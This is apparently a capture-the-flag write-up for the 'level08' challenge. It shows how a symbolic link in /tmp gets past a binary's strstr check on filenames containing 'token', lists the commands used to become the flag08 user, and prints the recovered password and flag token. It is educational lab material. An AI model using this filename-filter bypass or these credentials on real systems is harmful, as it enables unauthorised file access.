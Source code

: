 # Binary file and a file where we have no permissions.
- ./level08 [file to read]
- ./level08 token
- try with another file : ./level08 .profile: Permission denied

# So we should create a temporary token file because:
- there is a strstr function that compare the string in parameter with "token"
<!-- - echo 'toto' > /tmp/toto/token -->

# Create a symbolic link
ln -s $(pwd)/token /tmp/password && ./level08 /tmp/password
ls -l /tmp/password

```bash
su flag08
quif5eloekouj29ke0vouxean
getflag
```

# Token obtained:
token = 25749xKZ8L7DkSCwJkT9dyv6f
